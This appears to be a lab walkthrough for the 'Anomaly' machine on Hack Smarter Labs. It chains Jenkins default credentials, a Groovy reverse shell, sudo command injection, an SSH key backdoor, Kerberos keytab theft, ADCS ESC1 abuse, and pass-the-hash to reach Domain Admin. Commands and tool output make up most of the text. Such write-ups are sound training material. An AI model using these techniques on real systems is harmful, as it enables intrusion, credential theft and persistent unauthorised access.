










`[JENKINS]` `[GROOVY SCRIPT RCE]` `[COMMAND INJECTION]` `[KERBEROS KEYTAB]` `[ADCS ESC1]` `[MACHINEACCOUNTQUOTA]` `[PASS-THE-HASH]` `[RDP RESTRICTED ADMIN]` 

---


**Platform:** Hack Smarter Labs  
**Difficulty:** Medium  
**Operating System:** Ubuntu Linex Server & Windows Active Directory

---

## Overview

Anomaly is a two-machine OSCP-prep lab spanning an externally exposed Ubuntu server and an internal Windows Domain Controller. The DC runs active AV, ruling out standard payload-based approaches. The attack chain starts with Jenkins default credentials, escalates to root via a vulnerable sudo binary, then pivots to the AD environment using a Kerberos keytab left on the compromised server. From there, ADCS ESC1 via MachineAccountQuota delivers Domain Admin.

**Attack Path:**
```
Jenkins admin:admin → Groovy Script Console RCE → jenkins shell
→ sudo router_config (command injection) → root
→ /etc/krb5.keytab → kinit (brandon_boyd TGT)
→ LDAP enum → cleartext password in AD description → brandon_boyd creds
→ BloodHound → ESC1 (CertAdmin template, Domain Computers enrollable)
→ MAQ=10 → FAKEBOX$ machine account → cert as anna_molly (Domain Admin)
→ PKINIT → NTLM hash → wmiexec2 → Enable Restricted Admin → xfreerdp
```

---

## Targets

| Host | IP | Role |
|------|-----|------|
| `anomaly-web` | `<TARGET_IP>` | Ubuntu Server (initial foothold) |
| `anomaly-dc.anomaly.hsm` | `<DC_IP>` | Windows Domain Controller |

---

# Part 1 — Ubuntu Server

## Enumeration

### Nmap

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.14 (Ubuntu Linux; protocol 2.0)
8080/tcp open  http    Jetty 10.0.20
|_http-robots.txt: 1 disallowed entry: /
```

Key findings:
- **Port 8080:** Jetty web server — Jenkins
- **Port 22:** SSH requires public key authentication — no bruteforce path
- Dirsearch on port 8080 returned nothing interesting

---

## Initial Access — Jenkins Default Credentials

Browsing to `http://anomaly-web:8080` presents a Jenkins login page.



Trying default credentials — `admin:admin` — succeeds on the first attempt.



### Groovy Script Console RCE

Jenkins ships with a **Script Console** (`Manage Jenkins → Script Console`) that executes arbitrary Groovy code on the server. Authenticated access here means immediate OS command execution.



Navigate to the Script Console and submit a Groovy reverse shell:

```bash
String host="TARGET_IP";
int port=4444;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```



Start a listener and run the script:

```bash
nc -lvnp 4444
```

```
connect to [<ATTACKER_IP>] from (UNKNOWN) [<TARGET_IP>] 39370
whoami
jenkins
```

### Shell Stabilisation

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
# Ctrl+Z
stty raw -echo; fg
stty rows 54 cols 211
```

---

## Privilege Escalation — Sudo Command Injection (`router_config`)

Check sudo rights:

```bash
jenkins@ip-10-0-18-224:~$ sudo -l
```

```
User jenkins may run the following commands on ip-10-0-18-224:
    (ALL) NOPASSWD: /usr/bin/router_config
```

`jenkins` can run `/usr/bin/router_config` as root with no password. The binary takes a filename argument and passes it directly to a system shell without sanitisation — straightforward command injection.

**Verify injection:**

```bash
jenkins@ip-10-0-18-224:~$ sudo /usr/bin/router_config whoami
Welcome to Router Configuration Utility v1.2
Applying configuration...
Applying config from whoami
root
Configuration applied successfully!
```

**Spawn root shell** (the `-i` flag makes it interactive):

```bash
jenkins@ip-10-0-18-224:~$ sudo /usr/bin/router_config "/bin/bash -i"
Welcome to Router Configuration Utility v1.2
Applying configuration...
Applying config from /bin/bash -i
root@ip-10-0-18-224:/var/lib/jenkins#
```

### User Flag

```bash
root@ip-10-0-18-224:/var/lib/jenkins# cat /root/user.txt
'REDACTED'
```

---

## Persistence — SSH Backdoor

Add our public key to root's `authorized_keys` to survive a Jenkins restart or patch:

```bash
mkdir -p /root/.ssh
echo "ssh-rsa AAAA...[Your_Key]..." >> /root/.ssh/authorized_keys
chmod 600 /root/.ssh/authorized_keys
```

Verify:

```bash
ssh root@<TARGET_IP>
```

---

## Pivoting to Active Directory — Kerberos Keytab

With root on the Ubuntu host, the goal shifts to finding a link to the AD environment. Bash history and running services yielded nothing useful. The pivot comes from Kerberos configuration files.

### Locating the Keytab

Keytab files store encrypted Kerberos credentials for service accounts, allowing passwordless authentication to the domain:

```bash
root@ip-10-0-18-224:/home/ubuntu# ls /etc/krb5.*
/etc/krb5.conf  /etc/krb5.keytab
```

`/etc/krb5.conf` reveals the domain:

```
[libdefaults]
    default_realm = ANOMALY.HSM

[realms]
    ANOMALY.HSM = {
        kdc = Anomaly-DC.anomaly.hsm
        admin_server = Anomaly-DC.anomaly.hsm
    }
```

Add the DC to `/etc/hosts` on the attacker machine:

```
<DC_IP>  anomaly-dc.anomaly.hsm anomaly-dc
```

Copy both files to Kali over SCP (using the SSH backdoor established above):

```bash
scp root@<TARGET_IP>:/etc/krb5.* ~/CTFs/HackSmarter/OSCP_Path/Anomaly/loot/
```

### Extracting Keytab Credentials

```bash
keytabextract.py krb5.keytab
```

```
[*] AES256-CTS-HMAC-SHA1 key found. Will attempt hash extraction.
[+] Keytab File successfully imported.
        REALM : ANOMALY.HSM
        SERVICE PRINCIPAL : Brandon_Boyd/
        AES-256 HASH : REDACTED
```

No NTLM hash (AES-only keytab), but the AES-256 key is sufficient for Kerberos authentication via `kinit`.

### Generating a TGT

Point the local Kerberos config at the looted file so all Kerberos-aware tools resolve to the target realm:

```bash
export KRB5_CONFIG=~/CTFs/HackSmarter/OSCP_Path/Anomaly/loot/krb5.conf
```

Request a TGT using the keytab:

```bash
kinit -kt krb5.keytab Brandon_Boyd@ANOMALY.HSM
```

Verify:

```bash
klist
```

```
Default principal: Brandon_Boyd@ANOMALY.HSM

Valid starting       Expires              Service principal
06/05/2026 06:17:14  06/05/2026 16:17:14  krbtgt/ANOMALY.HSM@ANOMALY.HSM
```

---

# Part 2 — Domain Controller

## DC Port Scan — All Filtered

```bash
rustscan -a anomaly-dc.anomaly.hsm --timeout 3000 -- -sV -sC -Pn
```

All standard AD ports (53, 88, 389, 445, 3389, etc.) show `filtered` — the DC is firewalled from the external VPN range. Access is through the Ubuntu pivot and Kerberos authentication only.

---

## AD Enumeration via LDAP

Export the Kerberos ticket cache for tool use:

```bash
export KRB5CCNAME=/tmp/krb5cc_1000
```

### Hunting for Credentials in AD Descriptions

Administrators sometimes store passwords in the AD user Description field. Enumerate all users and their descriptions:

```bash
nxc ldap anomaly-dc.anomaly.hsm -u brandon_boyd --use-kcache --users
```

```
LDAP  ANOMALY-DC  [+] ANOMALY.HSM\brandon_boyd from ccache
LDAP  ANOMALY-DC  -Username-      -Last PW Set-       -BadPW-  -Description-
LDAP  ANOMALY-DC  Administrator   2025-09-17 08:01:03  0       Built-in account...
LDAP  ANOMALY-DC  Guest           <never>              0       Built-in account...
LDAP  ANOMALY-DC  krbtgt          2025-09-21 07:54:56  0       Key Distribution...
LDAP  ANOMALY-DC  Brandon_Boyd    2025-11-12 15:30:05  0       REDACTED
LDAP  ANOMALY-DC  anna_molly      2025-11-12 15:29:16  0
```

**Cleartext password for `brandon_boyd` in his own Description field: `REDACTED`**

### Validate Credentials Against SMB

```bash
nxc smb Anomaly-DC.anomaly.hsm -u 'brandon_boyd' -p 'REDACTED' --shares
```

```
SMB  ANOMALY-DC  [+] anomaly.hsm\brandon_boyd:REDACTED
SMB  ANOMALY-DC  NETLOGON  READ
SMB  ANOMALY-DC  SYSVOL    READ
```

Authenticated. Check for GPP passwords in SYSVOL — none found.

---

## AD Enumeration — BloodHound

Collect AD data using NetExec (no need for SharpHound on a Linux attacker):

```bash
nxc ldap anomaly-dc.anomaly.hsm -u brandon_boyd -p 'REDACTED' \
  --bloodhound -c All --dns-server <DC_IP>
```

```
LDAP  ANOMALY-DC  Bloodhound data collection completed in 0M 22S
LDAP  ANOMALY-DC  Found 34 certificate templates
LDAP  ANOMALY-DC  Found 1 Enterprise CAs
LDAP  ANOMALY-DC  Compressing output into ...bloodhound.zip
```

Ingest the `.zip` into BloodHound CE (`http://127.0.0.1:8088`).



Mark `Brandon_Boyd` as owned. Domain Admins are `Administrator` and `anna_molly`.



### Standard Attack Path Checks

| Query | Result |
|-------|--------|
| Shortest Paths to Domain Admin | No direct path for Brandon |
| Kerberoastable Users | None |
| AS-REP Roastable Users | None |

### Outbound Object Control

Inspecting `Brandon_Boyd`'s **Outbound Object Control** reveals he controls 4 objects — all shown as purple certificate template icons in BloodHound:

- `USER@ANOMALY.HSM`
- `EFS@ANOMALY.HSM`
- `CLIENTAUTH@ANOMALY.HSM`
- `USERSIGNATURE@ANOMALY.HSM`



Brandon inherits these rights through **Domain Users** membership. The permission is `Enroll` — meaning any domain user can request a certificate from the CA using these templates.



---

## ADCS Exploitation — ESC1 via MachineAccountQuota

### Why ESC1 Matters

The `CertAdmin` template has **ESC1**: `Enrollee Supplies Subject = True` combined with `Client Authentication = True`. This means the requester can specify an arbitrary Subject Alternative Name (SAN) — requesting a cert that authenticates as `administrator@anomaly.hsm` while only holding `FAKEBOX$` credentials.

The catch: `CertAdmin` only allows **Domain Computers** to enroll, not Domain Users. Brandon can't exploit it directly.

### Verify MachineAccountQuota

```bash
nxc ldap Anomaly-DC.anomaly.hsm -u brandon_boyd -p 'REDACTED' -M maq
```

```
MAQ  ANOMALY-DC  MachineAccountQuota: 10
```

MAQ = 10: any domain user can create up to 10 machine accounts. Machine accounts are automatically members of **Domain Computers**.

**Full attack chain:**

```
Brandon_Boyd (Domain User)
  → MAQ=10 → create FAKEBOX$ machine account
    → FAKEBOX$ ∈ Domain Computers
      → Domain Computers has Enroll on CertAdmin (ESC1)
        → request cert with SAN = administrator@anomaly.hsm
          → PKINIT auth → NTLM hash
            → Pass-the-Hash → Domain Admin
```

### Confirm with Certipy

```bash
certipy-ad find -u brandon_boyd@anomaly.hsm -p 'REDACTED' \
  -dc-ip <DC_IP> -text -enabled -hide-admins -vulnerable
```

```
Certificate Templates
  0
    Template Name                       : CertAdmin
    Enabled                             : True
    Client Authentication               : True
    Enrollee Supplies Subject           : True
    Permissions
      Enrollment Permissions
        Enrollment Rights               : ANOMALY.HSM\Domain Admins
                                          ANOMALY.HSM\Enterprise Admins
      Object Control Permissions
        Full Control Principals         : ANOMALY.HSM\Domain Computers
    [+] User Enrollable Principals      : ANOMALY.HSM\Domain Computers
    [!] Vulnerabilities
      ESC1                              : Enrollee supplies subject and template allows client authentication.
      ESC4                              : User has dangerous permissions.
```

ESC1 confirmed. Enrollable by Domain Computers only.

---

## Exploitation

### Step 1 — Create a Machine Account

```bash
nxc ldap Anomaly-DC.anomaly.hsm -u brandon_boyd -p 'REDACTED' \
  -M add-computer -o NAME=FAKEBOX$ PASSWORD=Password123!
```

```
ADD-COMP  ANOMALY-DC  Successfully added "FAKEBOX$" with password "Password123!"
```

### Step 2 — Request ESC1 Certificate as Domain Admin

First attempt as `administrator` — the DC enforces SID extension (KB5014754), so the cert request fails without the target's SID. Fetch the SID first:

```bash
certipy-ad account -u 'FAKEBOX$' -p 'Password123!' \
  -dc-ip <DC_IP> -user 'Administrator' read
```

```
objectSid : S-1-5-21-1496966362-3320961333-4044918980-500
```

`Administrator` turned out to be disabled on this DC. Pivot to `anna_molly`:

```bash
certipy-ad account -u 'FAKEBOX$' -p 'Password123!' \
  -dc-ip <DC_IP> -user 'anna_molly' read
```

```
objectSid : S-1-5-21-1496966362-3320961333-4044918980-1105
```

Request the cert with the SID embedded:

```bash
certipy-ad req -u 'FAKEBOX$@anomaly.hsm' -p 'Password123!' \
  -ca anomaly-ANOMALY-DC-CA-2 \
  -template CertAdmin \
  -upn anna_molly@anomaly.hsm \
  -sid 'S-1-5-21-1496966362-3320961333-4044918980-1105' \
  -dc-ip <DC_IP>
```

```
[*] Got certificate with UPN 'anna_molly@anomaly.hsm'
[*] Certificate object SID is 'S-1-5-21-1496966362-3320961333-4044918980-1105'
[*] Wrote certificate and private key to 'anna_molly.pfx'
```

### Step 3 — Authenticate via PKINIT

Certipy uses PKINIT — Kerberos authentication via certificate instead of password. The DC validates the cert (signed by its own CA) and returns a TGT and NTLM hash:

```bash
certipy-ad auth -pfx anna_molly.pfx -dc-ip <DC_IP>
```

```
[*] Got TGT
[*] Saving credential cache to 'anna_molly.ccache'
[*] Got hash for 'anna_molly@anomaly.hsm': aad3b435b51404eeaad3b435b51404ee:REDACTED
```

### Step 4 — Verify Domain Admin Access

```bash
nxc smb Anomaly-DC.anomaly.hsm -u 'anna_molly' \
  -H 'aad3b435b51404eeaad3b435b51404ee:REDACTED' --shares
```

```
SMB  ANOMALY-DC  [+] anomaly.hsm\anna_molly:REDACTED (Pwn3d!)
SMB  ANOMALY-DC  ADMIN$  READ,WRITE
SMB  ANOMALY-DC  C$      READ,WRITE
```

`(Pwn3d!)` — `anna_molly` has local admin on the DC.

---

## Getting a Shell — wmiexec2

`xfreerdp` with `/pth` initially fails: the DC enforces NLA and Restricted Admin mode is disabled by default.



Use `wmiexec2` (obfuscated WMI exec, evades Windows Defender) to get a semi-interactive shell first:

```bash
python3 wmiexec2.py anomaly.hsm/anna_molly@<DC_IP> \
  -hashes 'aad3b435b51404eeaad3b435b51404ee:REDACTED'
```

```
[*] Launching wmiexec2
C:\> whoami
anomaly\anna_molly
```

### Enable Restricted Admin Mode

Restricted Admin prevents credentials from being forwarded to the remote host during RDP — the client authenticates using the machine's identity instead, making pass-the-hash over RDP possible:

```
C:\> reg add HKLM\System\CurrentControlSet\Control\Lsa /v DisableRestrictedAdmin /t REG_DWORD /d 0 /f
The operation completed successfully.
```

### Full RDP Access

```bash
xfreerdp /v:<DC_IP> /u:anna_molly \
  /pth:REDACTED \
  /cert:ignore
```

---

## Root Flag

```bash
type C:\Users\Administrator\Desktop\root.txt
```



---

## Summary

| Step | Technique | Tool |
|------|-----------|------|
| Jenkins default creds | Credential stuffing (`admin:admin`) | Browser |
| Jenkins RCE | Groovy Script Console | Jenkins Script Console |
| Privilege escalation | Sudo command injection (`router_config`) | Manual |
| AD pivot | Kerberos keytab → TGT | keytabextract, kinit |
| Credential recovery | Cleartext password in AD Description | NetExec (nxc) |
| AD mapping | BloodHound collection | NetExec + BloodHound CE |
| ADCS enum | ESC1 template discovery | Certipy |
| Machine account | MachineAccountQuota abuse | NetExec add-computer |
| ESC1 exploitation | Certificate request as Domain Admin | Certipy |
| Authentication | PKINIT → NTLM hash extraction | Certipy |
| Shell | Pass-the-Hash WMI execution | wmiexec2 |
| RDP | Restricted Admin mode → PtH RDP | xfreerdp |
